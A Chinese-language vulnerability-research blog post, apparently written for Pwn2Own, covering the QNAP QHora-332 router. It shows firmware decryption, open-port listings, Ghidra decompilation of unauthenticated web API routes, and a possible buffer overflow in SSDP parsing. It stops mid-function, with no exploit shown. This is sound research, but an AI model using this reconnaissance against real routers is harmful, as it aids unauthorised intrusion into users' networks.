


# Qnap-QHora332-analysis

## 前言

> 又到了新的一年的Pwn2Own, 在去年我分析`TP-Link ER605`后写的文章无人问津, 当然现在您要是还想看的话也可以去到我的github上有`:)`(https://github.com/Zhi0Yuan/MyBlog/blob/main/tp-link-er605/tp-link-er605.md) , 今年的比赛列表我们失去了好伙伴TP-Link, 所以继续在初始列表中选择目标, 按照去年的经验我选择的第一个目标一般来说都没有什么产出,那就是`Synology RT6600ax`, 为什么我的第一个目标会是它呢, 我在分析这个设备的历史漏洞时发现去年的初始列表中也有它看来我们不是第一次相遇了.

> 所以回到正题今年我们的目标设备是Qnap的`QHora332`路由器, 由于这个设备的价格过于离谱我想, 我的经济实力不允许我购买设备回来测试, 即使是`301W`在鱼上都需要800, 更别说`332`了, 高达3000多! 去年我买回来的ER605只需要350, 这简直天差地别, 所以我们只能够去官网下载个固件来在本地, 使用qemu去运行一下了.

> 在下面提到了许多的服务我很多都没有发现漏洞, 但是还是要写出来第一是帮助我理一理思路, 第二也是帮助未来的师傅快速的了解这个设备, 如果对于这些都不感兴趣可以直接看漏洞分析, 我并没有去查看缓冲区溢出(因为我对于缓冲区溢出的exp开发并不熟练和没有实体设备), 如果去仔细去看一下缓冲区溢出应该还是会有漏洞的.

## 固件的提取

> 在准备分析一个设备之前我一定会做的一件事就是祈祷厂商不要加密固件, 不出意外的是果然当我使用`unblob`准备提取固件并大展身手时候, 现实给了我当头一棒没有办法只能够在google和github上找一找前人的足迹, 幸运女神再一次眷顾了我看来对于我来说运气是必不可少的,在github上找到了一个关于qnap的NAS设备的固件解密, 兴许能够用在router设备上?

> 我在openwrt的论坛中找到了答案.

[参考](https://forum.openwrt.org/t/adding-openwrt-support-for-qnap-qhora-301w/96934/28?page=2)

[解压工具](https://gist.github.com/ulidtko/966277a465f1856109b2d2674dcee741)

> 密钥是下载的固件的文件名的前九个字符串,解密命令如下

```sh 

./qnap-qts-fw-cryptor.py d QHora-322 QHora-322_20240710-2.4.1.634.img QHora-322_20240710-2.4.1.634.img.tgz

```

## 设备攻击面梳理

### 开放的端口

> 在设备上运行了`netstat -lpntu`命令后,我们可以初步看到设备开放了那些端口, 一共在两个设备上运行了该命令来看一下开放了那些端口.


```sh
# Device1
/ # netstat -lpntu
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      9895/cloudagent     
tcp        0      0 127.0.0.1:6666          0.0.0.0:*               LISTEN      3505/rapid          
tcp        0      0 127.0.0.1:6379          0.0.0.0:*               LISTEN      8083/redis-server 
tcp        0      0 0.0.0.0:5355            0.0.0.0:*               LISTEN      7656/systemd-resolv 
tcp        0      0 127.0.1.1:53            0.0.0.0:*               LISTEN      2388310/dnsmasq         
tcp        0      0 60.0.60.1:53            0.0.0.0:*               LISTEN      2388310/dnsmasq     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      7656/systemd-resolv 
tcp        0      0 127.0.0.1:58080         0.0.0.0:*               LISTEN      8540/webframework   
tcp        0      0 127.0.0.1:3008          0.0.0.0:*               LISTEN      7932/light-indicato 
tcp6       0      0 :::5355                 :::*                    LISTEN      7656/systemd-resolv 
tcp6       0      0 :::80                   :::*                    LISTEN      8540/webframework   
tcp6       0      0 :::443                  :::*                    LISTEN      8540/webframework   
udp        0      0 xx.xx.xxx.xxx:7788       0.0.0.0:*                           3626/quwan_wmd              
udp        0      0 0.0.0.0:8099            0.0.0.0:*                           626710/python       
udp        0      0 127.0.1.1:53            0.0.0.0:*                           2388310/dnsmasq     
udp        0      0 192.168.102.1:53        0.0.0.0:*                           2388310/dnsmasq     
udp        0      0 30.0.30.1:53            0.0.0.0:*                           2388310/dnsmasq     
udp        0      0 127.0.0.53:53           0.0.0.0:*                           7656/systemd-resolv 
udp        0      0 0.0.0.0:67              0.0.0.0:*                           7372/dhcpd          
udp        0      0 0.0.0.0:67              0.0.0.0:*                           7240/dhcpd          
udp        0      0 0.0.0.0:68              0.0.0.0:*                           5097/dhclient                
udp        0      0 0.0.0.0:123             0.0.0.0:*                           9869/ntpd                 
udp        0      0 0.0.0.0:4500            0.0.0.0:*                           4847/charon         
udp        0      0 0.0.0.0:500             0.0.0.0:*                           4847/charon                 
udp        0      0 127.0.0.1:5140          0.0.0.0:*                           3505/rapid          
udp        0      0 0.0.0.0:5355            0.0.0.0:*                           7656/systemd-resolv 
udp        0      0 0.0.0.0:40224           0.0.0.0:*                           7305/dhcpd          
udp    33600      0 0.0.0.0:36151           0.0.0.0:*                           7264/dhcpd          
udp        0      0 0.0.0.0:5555            0.0.0.0:*                           -                           
udp6       0      0 :::8097                 :::*                                7492/bcclient                 
udp6       0      0 :::123                  :::*                                9869/ntpd           
udp6       0      0 :::55516                :::*                                7343/dhcpd          
udp6       0      0 :::47347                :::*                                7296/dhcpd          
udp6       0      0 :::51567                :::*                                7264/dhcpd          
udp6       0      0 :::4500                 :::*                                4847/charon         
udp6       0      0 :::500                  :::*                                4847/charon         
udp6       0      0 :::45557                :::*                                7361/dhcpd          
udp6       0      0 fe80::265e:beff:fe8:546 :::*                                5168/dhcpcd                 
udp6       0      0 :::5355                 :::*                                7656/systemd-resolv 
```

```sh
# Device2
/ # netstat -lpntu
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.1.1:53            0.0.0.0:*               LISTEN      7013/dnsmasq        
tcp        0      0 10.11.12.1:53           0.0.0.0:*               LISTEN      7013/dnsmasq        
tcp        0      0 198.18.2.1:53           0.0.0.0:*               LISTEN      7013/dnsmasq        
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      5836/systemd-resolv 
tcp        0      0 127.0.0.1:58080         0.0.0.0:*               LISTEN      7581/webframework   
tcp        0      0 127.0.0.1:3008          0.0.0.0:*               LISTEN      6052/light-indicato 
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      7594/cloudagent     
tcp        0      0 127.0.0.1:6666          0.0.0.0:*               LISTEN      3564/rapid          
tcp        0      0 127.0.0.1:6379          0.0.0.0:*               LISTEN      6186/redis-server 1 
tcp        0      0 0.0.0.0:5355            0.0.0.0:*               LISTEN      5836/systemd-resolv 
tcp6       0      0 :::443                  :::*                    LISTEN      7581/webframework   
tcp6       0      0 :::5355                 :::*                    LISTEN      5836/systemd-resolv 
tcp6       0      0 :::80                   :::*                    LISTEN      7581/webframework   
udp        0      0 198.18.2.1:123          0.0.0.0:*                           3128001/ntpd               
udp        0      0 0.0.0.0:4433            0.0.0.0:*                           6484/qthd   * qnap专用vpn协议,需要共享密钥.       
udp        0      0 0.0.0.0:4500            0.0.0.0:*                           4866/charon *  成熟的第三方应用   
udp        0      0 0.0.0.0:500             0.0.0.0:*                           4866/charon *  成熟的第三方应用   
udp        0      0 0.0.0.0:39771           0.0.0.0:*                           5452/dhcpd         
udp        0      0 127.0.0.1:5140          0.0.0.0:*                           3564/rapid          
udp   213696      0 0.0.0.0:1234            0.0.0.0:*                           5430/dm_agent *   函数名称的synology_scan(群晖?)    
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           5430/dm_agent *   函数名称mdns_scan
udp        0      0 0.0.0.0:5355            0.0.0.0:*                           5836/systemd-resolv 
udp        0      0 0.0.0.0:5555            0.0.0.0:*                           -              *     
udp        0      0 x.xx.xx.xxx:7788        0.0.0.0:*                           3652/quwan_wmd   *   
udp        0      0 10.11.12.1:9999         0.0.0.0:*                           5430/dm_agent       
udp        0      0 0.0.0.0:1900            0.0.0.0:*                           5430/dm_agent   *  函数名称ssdp_scan 
udp        0      0 10.11.12.1:1900         0.0.0.0:*                           5430/dm_agent       
udp        0      0 0.0.0.0:8097            0.0.0.0:*                           5430/dm_agent   *  函数名称qnap_scan
udp        0      0 127.0.1.1:53            0.0.0.0:*                           7013/dnsmasq        
udp        0      0 10.11.12.1:53           0.0.0.0:*                           7013/dnsmasq        
udp        0      0 198.18.2.1:53           0.0.0.0:*                           7013/dnsmasq        
udp        0      0 127.0.0.53:53           0.0.0.0:*                           5836/systemd-resolv 
udp        0      0 255.255.255.255:67      0.0.0.0:*                           5430/dm_agent       
udp        0      0 0.0.0.0:67              0.0.0.0:*                           5452/dhcpd          
udp        0      0 0.0.0.0:68              0.0.0.0:*                           3127761/dhclient           
udp6       0      0 ::1:123                 :::*                                3128001/ntpd        
udp6       0      0 :::123                  :::*                                3128001/ntpd        
udp6       0      0 :::4500                 :::*                                4866/charon   * 成熟的第三方应用
udp6       0      0 :::500                  :::*                                4866/charon   * 成熟的第三方应用
udp6       0      0 :::54041                :::*                                5452/dhcpd          
udp6       0      0 :::5355                 :::*                                5836/systemd-resolv 
udp6       0      0 :::8097                 :::*                                5574/bcclient  * qnap官方的发现服务
```

> 两台设备上有很多相同的端口开放比如 4500,500,8097,7788,5555,5355,5140. 选择几个不常见的程序来分析一下吧.

### web服务-webframework

> web服务使用golnag gin web框架编写,认证框架使用的是gin-jwt,打开的端口有80,443,58080, 程序名称为`webframework`,使用sqlite3作为数据库支持.

> 感兴趣可以看一下gin-web的[官方文档](https://gin-gonic.com/docs/quickstart/), 使用官方的示例来解释一下好有一个初步的了解.

```go
package main

import "github.com/gin-gonic/gin"

func main() {
	r := gin.Default()
	r.GET("/ping", func(c *gin.Context) {
		c.JSON(200, gin.H{
			"message": "pong",
		})
	})
	r.Run() // listen and serve on 0.0.0.0:8080


```
> GET请求http://127.0.0.1/ping将会返回{"message":"pong"}的json数据, 在后面Ghidra中的伪代码中会有不同但并不影响.

> web程序毋庸置疑需要认证和鉴权在这个程序中使用的是gin-jwt(由于我们的漏洞并不涉及权限bypass, 感兴趣的小伙伴可以看一下这个项目)https://github.com/appleboy/gin-jwt

> 下面来看一下具体的代码吧, 使用Ghidra分析程序. 可以安装一个插件可以更好的分析[GolangAnalyzerExtension](https://github.com/mooncat-greenpy/Ghidra_GolangAnalyzerExtension)

> web服务的路由定义在两个函数中`miro-webserver/routes/qhora_301w.InitRouters`和`miro-webserver/routes/qhora_301w.InitInternalRouters`第一个是绑定在80和443而第二个绑定在内部58080端口而这个端口只能够通过127.0.0.1去访问所以,我们只能够来看`miro-webserver/routes/qhora_301w.InitRouters`

```go

void miro-webserver/routes/qhora_301w.InitRouters(undefined8 param_1)

{
  code *pcVar1;
  long unaff_x28;
  code **ppcVar2;
  undefined8 in_stack_ffffffffffffffa8;
  undefined8 uVar3;
  undefined8 uVar4;
  code **local_20;
  code **local_18;
  undefined **local_10 [2];

  while (local_10 <= *(undefined ****)(unaff_x28 + 0x10)) {
 
    runtime.morestack_noctxt();
  }
   
  github.com/gin-gonic/gin.(*RouterGroup).Group
            (param_1,&DAT_00faeafc,0xc,0,0,0,in_stack_ffffffffffffffa8);
  ppcVar2 = (code **)&DAT_00fab878;
  uVar3 = in_stack_ffffffffffffffa8;
  github.com/gin-gonic/gin.(*RouterGroup).Group
            (in_stack_ffffffffffffffa8,&DAT_00fab878,9,0,0,0,in_stack_ffffffffffffffa8);
  miro-webserver/routes/qhora_301w.regEngineerAPIs(uVar3); //[1]
  pcVar1 = DAT_017fa308;
  runtime.newobject(&DAT_00edd940,ppcVar2);
  *ppcVar2 = miro-webserver/routes/qhora_301w.InitRouters.func1; //[9]
  if (DAT_01830e10 == 0) {
    ppcVar2[1] = pcVar1;
  }
  else {
    runtime.gcWriteBarrier();
  }

  local_10[0] = &PTR_miro-webserver/controllers/api/login.CheckInitState_0102f278;
  local_18 = ppcVar2;
  github.com/gin-gonic/gin.(*RouterGroup).Group
            (in_stack_ffffffffffffffa8,&DAT_00fa519e,3,&local_18,2,2,uVar3);
              
  miro-webserver/routes/qhora_301w.regV1InitAPIs(uVar3); //[2]
              
  ppcVar2 = (code **)&DAT_00fa519e;
  github.com/gin-gonic/gin.(*RouterGroup).Group
            (in_stack_ffffffffffffffa8,&DAT_00fa519e,3,0,0,0,uVar3);
               
  miro-webserver/routes/qhora_301w.regV1NonAuthAPIs(uVar3); //[3]
  pcVar1 = DAT_017fa300;

  runtime.newobject(&DAT_00edd940,ppcVar2);
  *ppcVar2 = miro-webserver/routes/qhora_301w.InitRouters.func2; //[10]
  if (DAT_01830e10 == 0) {
    ppcVar2[1] = pcVar1;
  }
  else {
    runtime.gcWriteBarrier();
  }

  local_20 = ppcVar2;
  github.com/gin-gonic/gin.(*RouterGroup).Group
            (in_stack_ffffffffffffffa8,&DAT_00fa519e,3,&local_20,1,1,uVar3);
  uVar4 = uVar3;

  miro-webserver/routes/qhora_301w.regV1APIs(uVar3); //[4]
  
  ppcVar2 = (code **)((long)&DAT_00fa519e + 3);
  github.com/gin-gonic/gin.(*RouterGroup).Group(in_stack_ffffffffffffffa8,0xfa51a1,3,0,0,0,uVar4);
  
  miro-webserver/routes/qhora_301w.regV2NonAuthAPIs(uVar4); //[5]
  pcVar1 = DAT_017fa300;
   
  runtime.newobject(&DAT_00edd940,ppcVar2);
  *ppcVar2 = miro-webserver/routes/qhora_301w.InitRouters.func3; //[11]
  if (DAT_01830e10 == 0) {
    ppcVar2[1] = pcVar1;
  }
  else {
    runtime.gcWriteBarrier();
  }

  local_20 = ppcVar2;
  github.com/gin-gonic/gin.(*RouterGroup).Group
            (in_stack_ffffffffffffffa8,0xfa51a1,3,&local_20,1,1,uVar4);

  miro-webserver/routes/qhora_301w.regV2APIs(uVar4); //[6]

  if ((DAT_017fc688 == 2) && (*(short *)DAT_017fc680 == 0x7061)) {
  
    miro-webserver/routes/qhora_301w.regV1APModeAPIs(uVar3); //[7]
  }
  else {

    if ((DAT_017fc688 == 6) &&
       ((*DAT_017fc680 == 0x74756f72 && (*(short *)(DAT_017fc680 + 1) == 0x7265)))) {
     
      miro-webserver/routes/qhora_301w.regV1RouterModeAPIs(uVar3); //[8]
    }
  }

  return;
}

```

> 可以看到在[1],[2],[3],[4],[5],[6],[7],[8], 分别调用了api处理函数, 权限鉴定的地方就在[9],[10],[11]处, 当进入函数后可以看到`github.com/appleboy/gin-jwt/v2.(*GinJWTMiddleware).middlewareImpl`,现在我们可以回头来看gin-jwt, 在验证权限时会调用`MiddlewareFunc`而本质上是调用`middlewareImpl`

```go
func (mw *GinJWTMiddleware) MiddlewareFunc() gin.HandlerFunc {
	return func(c *gin.Context) {
		mw.middlewareImpl(c)
	}
}
```
> 所以我们只需要看那些`github.com/gin-gonic/gin.(*RouterGroup).Group`中没有调用middlewareImpl就可以知道那些接口不需要权限认证

> 可以看到[2]处上面的Group的`local_18`参数来自于`ppcVar2`而`ppcVar2`来自于`miro-webserver/routes/qhora_301w.InitRouters.func1`, 而不需要鉴权的接口是[3]也就是`regV1NonAuthAPIs`我们也可以通过函数名称看出来, Gorup的第四个参数也设置为0.

> 随便进入一个api函数`miro-webserver/routes/qhora_301w.regV1InitAPIs`

```C
void miro-webserver/routes/qhora_301w.regV1InitAPIs(undefined8 param_1)

{
  
  while (&stack0x00000000 <= *(undefined **)(unaff_x28 + 0x10)) {
    runtime.morestack_noctxt();
  }
  runtime.newobject(&datatype.Array.[1]gin.HandlerFunc,in_stack_ffffffffffffffb0);
  *in_stack_ffffffffffffffb0 = &PTR_miro-webserver/controllers/api/firmware.FwUpgradeAPI_0102f1c8; //[1]

  puVar1 = (undefined8 *)&DAT_00fa52f1;
  github.com/gin-gonic/gin.(*RouterGroup).handle
            (param_1,"PUT",3,"/initial/firmware",0x11,in_stack_ffffffffffffffb0,1,1,
             in_stack_ffffffffffffffe8,in_stack_fffffffffffffff0);

  runtime.newobject(&datatype.Array.[1]gin.HandlerFunc,puVar1);
  *puVar1 = &PTR_miro-webserver/controllers/api/firmware.GetLocalFwInfoAPI_0102f1e0; //[2]

  pcVar2 = s_GET_00fa5267;
  github.com/gin-gonic/gin.(*RouterGroup).handle
            (param_1,"GET",3,"/initial/firmware",0x11,puVar1,1,1,in_stack_ffffffffffffffe8,
             in_stack_fffffffffffffff0);

  runtime.newobject(&datatype.Array.[1]gin.HandlerFunc,pcVar2);

```
> 现在我们可以看到路径和请求方法了,前面我提到过跟官方的示例有一点不同，但是如果你跟入`r.GET`就会发现为什么了, 可能在Ghidra分析时会直接到核心函数, 大部分的分析我都是根据代码逻辑和函数名称去猜，找到了黑盒测试的感觉.

```GO
//可以看到GET也是调用了group.handle
// GET is a shortcut for router.Handle("GET", path, handlers).
func (group *RouterGroup) GET(relativePath string, handlers ...HandlerFunc) IRoutes {
	return group.handle(http.MethodGet, relativePath, handlers)
}
```
> 而对应的调用函数, 细心的师傅可能已经发现了就是[1],[2]处 , `FwUpgradeAPI` and `GetLocalFwInfoAPI`

> 我们初步的总结的无需授权的接口和需要授权的接口如下

1. 需要认证

```c

qhora_301w.regEngineerAPIs()
qhora_301w.regV1InitAPIs()
qhora_301w.regV1APIs()
qhora_301w.regV2APIs()
qhora_301w.regV1APModeAPIs()
qhora_301w.regV1RouterModeAPIs()

qhora_301w.regInternalAPIs()//这个路由貌似只有在debugmode时启用

```


2. 不需要认证

```c

qhora_301w.regV1NonAuthAPIs()
qhora_301w.regV2NonAuthAPIs()

```

> 常见请求url两个,`/miro/api/v2/*` and `/miro/api/v1/*`,还有一个内部请求使用的路径，但是本质上没有区别. 如果我们想Call到`GetLocalFwInfoAPI`就需要`GET /miro/api/v1/initial/firmware`.

> web的基本分析已经结束了, 对于其他的不感兴趣可以直接跳到漏洞分析.

### systemd-resolved 服务 5355端口

> 这个没有什么可以看的, DNS缓存服务而开放的5355端口是LLMNR服务(链路本地多播名称解析), 具体信息可以看https://wiki.archlinux.org/title/Systemd-resolved和https://en.wikipedia.org/wiki/Link-Local_Multicast_Name_Resolution 我并没有去过多的去看，因为看起来是一个成熟的服务.

### charon 服务 4500,500端口

> `charon`进程是`strongswan`中的核心进程序,开源的基于IPsec的VPN解决方案, 看上去又是一个成熟的第三方服务, 简单的看了一下历史漏洞貌似并没有我能够利用的,也尝试搜索了一下厂商都关键字没有找到特征, 所以我跳过了这个程序.
(可以看一下是否对于日志有二次处理)


### dm_agent服务 开放了许多端口

> `dm_agent`服务只在一个设备中发现运行可能是需要单独开启的服务, 并且服务好像是由第三方为qnap开发的dpi服务,开发公司是lionic.

> 1900 ssdp_scan , 3702 ws_discovery_scan , 5353 mdns_scan , 8097 qnap_scan, 1234 synology_scan, `dm_agent`udp接收到的请求最后都会发送到6666的端口的`rapid` (暂不清楚是否能够在WAN口访问)

> 简单的来看一下处理接收数据的函数, 部分端口貌似只记录了日志比如ws_discovery_scan,

```C
// ssdp_scan function

    uVar4 = recvfrom(__fd,&local_800,0x800,0,local_880,&local_940); //[1]
  } while ((int)uVar4 < 0);
  if (local_880[0].sa_family != 2) goto LAB_004103ac;
  inet_ntop(2,local_880[0].sa_data + 2,acStack_908,0x10);
  iVar1 = arp_getmac(param_2,acStack_908,&local_8e8); //[2]
  goto joined_r0x00410634;
LAB_004103ac:
  if (local_880[0].sa_family == 10) {
    inet_ntop(10,local_880[0].sa_data + 6,acStack_8b0,0x2e);
    iVar1 = ndp_getmac(param_2,acStack_8b0,&local_8e8); //[3]
joined_r0x00410634:
    if (iVar1 == 0) {
      iVar1 = check_pkt_len(&local_8e8,uVar4 & 0xffffffff);
      if (iVar1 == 0) {
        if (8 < (int)uVar4) {
          if (develop_mode != 0) {
            printf("[SSDP] Got message size = %d, data = %02X%02X%02X%02X%02X%02X%02X%02X...\n",
                   uVar4 & 0xffffffff,(ulong)local_800,(ulong)local_7ff,(ulong)local_7fe,
                   (ulong)local_7fd,(ulong)local_7fc,(ulong)local_7fb,(uint)local_7fa,
                   (uint)local_7f9);
            ssdp_parser(&local_800,&local_8e8); //[4]
            goto joined_r0x00410390;
          }
          if (syslog_mode != 0) {
            syslog(7,"[SSDP] Got message size = %d, data = %02X%02X%02X%02X%02X%02X%02X%02X...\n",
                   uVar4 & 0xffffffff,(ulong)local_800,(ulong)local_7ff,(ulong)local_7fe,
                   (ulong)local_7fd,(ulong)local_7fc,(uint)local_7fb,(uint)local_7fa,(uint)local_7f9
                  );
          }
        }
        ssdp_parser(&local_800,&local_8e8); //[5]

```
> 可以看到在[1]处获取到udpdata, 在[2]和[3]处获取来MAC地址, 并在[4]或[5]处传递给`ssdp_parser`
进行处理

```C
//ssdp_parser

undefined8 ssdp_parser(char *param_1,undefined8 param_2)

{
  long lVar1;
  long lVar2;
  int iVar3;
  int iVar4;
  undefined4 *puVar5;
  char *pcVar6;
  char *pcVar7;
  size_t sVar8;
  int iVar9;
  long lVar10;
  long lVar11;
  undefined4 *puVar12;
  long lVar13;
  char acStack_1880 [64];
  char acStack_1840 [64];
  undefined auStack_1800 [2048];
  undefined8 local_1000;
  undefined8 uStack_ff8;
  undefined auStack_ff0 [2032];
  undefined auStack_800 [2048];
  
  local_1000 = 0;
  uStack_ff8 = 0;
  memset(auStack_ff0,0,0x7f0);
  if (ssdp_protocol != 0) {
    puVar12 = *(undefined4 **)(ssdp_protocol + 0x10);
    puVar5 = *(undefined4 **)(ssdp_protocol + 8);
    if ((puVar12 != (undefined4 *)0x0) && (iVar4 = puVar12[1], 0 < iVar4)) {
      lVar11 = 0;
      do {
        lVar10 = *(long *)(puVar12 + 2);
        memset(auStack_800,0,0x800);
        lVar1 = lVar10 + lVar11;
        pcVar6 = strcasestr(param_1,*(char **)(lVar10 + lVar11));
        if (pcVar6 != (char *)0x0) {
          pcVar7 = strstr(pcVar6,"\r\n");
          iVar9 = (int)pcVar7 - (int)pcVar6;
          if (0x800 < iVar9) {
            iVar9 = 0x800;
          }
          memcpy(auStack_800,pcVar6 + 1,(long)iVar9); //这里貌似有缓冲区溢出但是没有测试过
          auStack_800[iVar9] = 0;
          if (0 < *(int *)(lVar1 + 8)) {
            lVar10 = 0;
            iVar9 = 0;
            do {
              lVar13 = *(long *)(lVar1 + 0x10);
              memset(auStack_1800,0,0x800);
              lVar2 = lVar13 + lVar10;
              iVar3 = regular_expression(auStack_800,*(undefined8 *)(lVar13 + lVar10),auStack_1800,
                                         0x800);
              if (0 < iVar3) {
                pcVar6 = *(char **)(lVar2 + 8);
                if ((pcVar6 == (char *)0x0) || (*pcVar6 == '\0')) {
                  update_dm_list(param_2,1,*(undefined4 *)(lVar2 + 0x10),auStack_1800,
                                 *(undefined4 *)(lVar2 + 0x14),*puVar12);
                }
                else {
                  update_dm_list(param_2,1,*(undefined4 *)(lVar2 + 0x10),pcVar6,
                                 *(undefined4 *)(lVar2 + 0x14),*puVar12);
                }
              }
              iVar9 = iVar9 + 1;
              lVar10 = lVar10 + 0x18;
            } while (iVar9 < *(int *)(lVar1 + 8));
          }
        }
        lVar11 = lVar11 + 0x18;
      } while ((long)iVar4 * 0x18 != lVar11);
    }
    if ((((puVar5 != (undefined4 *)0x0) &&
         (pcVar6 = strcasestr(param_1,"location:"), pcVar6 != (char *)0x0)) &&
        (iVar4 = parse_ssdp_response_get_description(param_1,0x800,&local_1000,3), iVar4 != -1)) &&
       (iVar4 = puVar5[1], 0 < iVar4)) {
      lVar11 = 0;
      do {
        lVar10 = *(long *)(puVar5 + 2);
        memset(auStack_800,0,0x800);
        lVar1 = lVar10 + lVar11;
        sprintf(acStack_1880,"<%s>",*(undefined8 *)(lVar10 + lVar11));
        sprintf(acStack_1840,"</%s>",*(undefined8 *)(lVar10 + lVar11));
        sVar8 = strlen(acStack_1880);
        pcVar6 = strcasestr((char *)&local_1000,acStack_1880);
        if (pcVar6 != (char *)0x0) {
          pcVar6 = pcVar6 + sVar8;
          pcVar7 = strcasestr(pcVar6,acStack_1840);
          if (pcVar7 != (char *)0x0) {
            iVar9 = (int)pcVar7 - (int)pcVar6;
            if (0x7ff < iVar9) {
              iVar9 = 0x7ff;
            }
            memcpy(auStack_800,pcVar6,(long)iVar9);
            auStack_800[iVar9] = 0;
            if (0 < *(int *)(lVar1 + 8)) {
              lVar10 = 0;
              iVar9 = 0;
              do {
                lVar13 = *(long *)(lVar1 + 0x10);
                memset(auStack_1800,0,0x800);
                lVar2 = lVar13 + lVar10;
                iVar3 = regular_expression(auStack_800,*(undefined8 *)(lVar13 + lVar10),auStack_1800
                                           ,0x800);
                if (0 < iVar3) {
                  pcVar6 = *(char **)(lVar2 + 8);
                  if ((pcVar6 == (char *)0x0) || (*pcVar6 == '\0')) {
                    update_dm_list(param_2,1,*(undefined4 *)(lVar2 + 0x10),auStack_1800,
                                   *(undefined4 *)(lVar2 + 0x14),*puVar5);
                  }
                  else {
                    update_dm_list(param_2,1,*(undefined4 *)(lVar2 + 0x10),pcVar6,
                                   *(undefined4 *)(lVar2 + 0x14),*puVar5);
                  }
                }
                iVar9 = iVar9 + 1;
                lVar10 = lVar10 + 0x18;
              } while (iVar9 < *(int *)(lVar1 + 8));
            }
          }
        }
        lVar11 = lVar11 + 0x18;
      } while (lVar11 != (long)iVar4 * 0x18);
      return 0;
    }
  }
  return 0;
}

```

> 在这个函数中最后都会调用`update_dm_list`->`update_rest_api`, 处理数据并将数据发送到`rapid`服务

```C


undefined8 update_rest_api(byte *param_1)

{
  FILE *__stream;
  int iVar1;
  int iVar2;
  
  local_80 = 0;
  uStack_78 = 0;
  local_70 = 0;
  uStack_68 = 0;
  iVar2 = *(int *)(param_1 + 0x200);
  iVar1 = sprintf((char *)&local_80,
                  "http://localhost:6666/apis/v1/scanned_devices/%c%c%c%c%c%c%c%c%c%c%c%c",
                  (ulong)*param_1,(ulong)param_1[1],(ulong)param_1[3],(ulong)param_1[4],
                  (ulong)param_1[6],(ulong)param_1[7],(uint)param_1[9],(uint)param_1[10],
                  (uint)param_1[0xc],(uint)param_1[0xd],(uint)param_1[0xf],(uint)param_1[0x10]);
  lVar3 = cJSON_CreateObject(iVar1);
  lVar4 = cJSON_CreateObject();
  if (lVar4 == 0 || lVar3 == 0) {
    if (develop_mode == 0) {
      if (syslog_mode != 0) {
        syslog(7,"Create Json object fails\n");
      }
    }
    else {
      puts("Create Json object fails");
    }
    if (lVar3 == 0) {
      return 0xffffffff;
    }
  }
  else {
    uVar5 = cJSON_CreateString(param_1 + 0x60);
    cJSON_AddItemToObject(lVar4,"name",uVar5);
    uVar5 = cJSON_CreateString(param_1 + 0x14);
    cJSON_AddItemToObject(lVar4,"os",uVar5);
    uVar5 = cJSON_CreateString(param_1 + 0xf0);
    cJSON_AddItemToObject(lVar4,"type",uVar5);
    uVar5 = cJSON_CreateString(param_1 + 0x20);
    cJSON_AddItemToObject(lVar4,"vendor",uVar5);
    uVar5 = cJSON_CreateString(param_1 + 0xb0);
    cJSON_AddItemToObject(lVar4,"model",uVar5);
    uVar5 = cJSON_CreateString(param_1 + 0xa0);
    cJSON_AddItemToObject(lVar4,"ip",uVar5);
    uVar5 = cJSON_CreateNumber((double)*(int *)(param_1 + 0x1f8));
    cJSON_AddItemToObject(lVar4,"weight_name",uVar5);
    uVar5 = cJSON_CreateNumber((double)*(int *)(param_1 + 0x1f0));
    cJSON_AddItemToObject(lVar4,"weight_os",uVar5);
    uVar5 = cJSON_CreateNumber((double)*(int *)(param_1 + 0x204));
    cJSON_AddItemToObject(lVar4,"weight_type",uVar5);
    uVar5 = cJSON_CreateNumber((double)*(int *)(param_1 + 500));
    cJSON_AddItemToObject(lVar4,"weight_vendor",uVar5);
    uVar5 = cJSON_CreateNumber((double)*(int *)(param_1 + 0x200));
    cJSON_AddItemToObject(lVar4,"weight_model",uVar5);
    uVar5 = cJSON_CreateNumber((double)*(int *)(param_1 + 0x2b0));
    cJSON_AddItemToObject(lVar4,"dhcp_count",uVar5);
    uVar5 = cJSON_CreateNumber((double)*(int *)(param_1 + 0x2ab4));
    cJSON_AddItemToObject(lVar4,"ua_count",uVar5);
    uVar5 = cJSON_CreateString(param_1 + 0x1b0);
    cJSON_AddItemToObject(lVar4,"nick_name",uVar5);
    uVar5 = cJSON_CreateString(param_1 + 0x170);
    cJSON_AddItemToObject(lVar4,"customized_type",uVar5);
